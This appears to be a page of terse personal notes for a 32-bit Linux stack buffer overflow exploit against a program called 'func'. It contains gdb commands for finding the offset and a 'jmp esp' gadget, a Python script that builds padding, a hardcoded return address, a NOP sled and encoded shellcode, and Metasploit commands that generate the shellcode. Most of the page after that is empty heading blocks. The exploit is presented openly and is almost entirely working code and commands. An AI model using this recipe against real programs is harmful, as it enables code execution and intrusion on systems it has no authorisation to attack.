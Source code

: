 ### 
#### 
    gdb func
    disass getuserinput
_____________________________________________________________________________________________________________________
### 
#### 
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### 
#### 
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### 
#### 
    gdb func
    run <<< $(python test.py)
_____________________________________________________________________________________________________________________
### 
#### 
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python               #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
